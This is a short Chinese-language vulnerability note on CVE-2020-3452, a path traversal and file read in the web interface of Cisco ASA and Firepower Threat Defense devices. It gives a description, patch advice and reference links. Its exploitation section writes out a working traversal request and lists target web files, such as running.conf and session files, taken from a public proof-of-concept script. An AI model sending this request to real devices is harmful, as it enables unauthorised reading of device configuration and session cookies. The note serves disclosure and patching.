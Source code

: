 ### 一 漏洞描述
防火墙设备以及Cisco Firepower Threat Defense (FTD)设备的web管理界面存在未授权的目录穿越漏洞和远程任意文件读取漏洞。攻击者只能查看web目录下的文件，无法通过该漏洞访问web目录之外的文件。该漏洞可以查看webVpn设备的配置信息，cookies等。

### 二 漏洞利用
```
/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../
```

https://github.com/cygenta/CVE-2020-3452/blob/main/CVE-2020-3452.py
```
files = {
"sess_update.html",
"blank.html",
"noportal.html",
"portal_ce.html",
"portal.html",
"logon_custom.css",
"svc.html",
"logo.gif",
"portal_inc.lua",
"nostcaccess.html",
"session.js",
"portal.js",
"portal_custom.css",
"running.conf",
"tlbrportal_forms.js",
"logon_forms.js",
"win.js",
"portal.css",
"lced.html",
"pluginlib.js",
"useralert.html",
"ping.html",
"app_index.html",
"shshimdo_url",
"session_password.html",
"relayjar.html",
"relayocx.html",
"color_picker.js",
"color_picker.html",
"cedhelp.html",
"cedmain.html",
"cedlogon.html",
"cedportal.html",
"portal_elements.html",
"commonspawn.js",
"common.js",
"appstart.js",
"relaymonjar.html",
"relaymonocx.html",
"cedsave.html",
"tunnel_linux.jnlp",
"ask.html",
"no_svc.html",
"preview.html",
"cedf.html",
"ced.html",
"logon_redirect.html",
"logout.html",
"tunnel_mac.jnlp",
"gp-gip.html",
"auth.html",
"wrong_url.html",
"logon.html"
}
```

### 三 漏洞修复
打补丁  
https://www.tenable.com/blog/cve-2020-3452-cisco-adaptive-security-appliance-and-firepower-threat-defense-path-traversal  

> 参考链接  
> 产品介绍: https://www.cisco.com/c/en_ca/products/security/adaptive-security-appliance-asa-software/index.html  
> https://www.cnblogs.com/unicodeSec/p/13364171.html  
> 补丁: https://www.tenable.com/blog/cve-2020-3452-cisco-adaptive-security-appliance-and-firepower-threat-defense-path-traversal  
> https://zhuanlan.zhihu.com/p/163246632  
> https://github.com/cygenta/CVE-2020-3452/blob/main/CVE-2020-3452.py
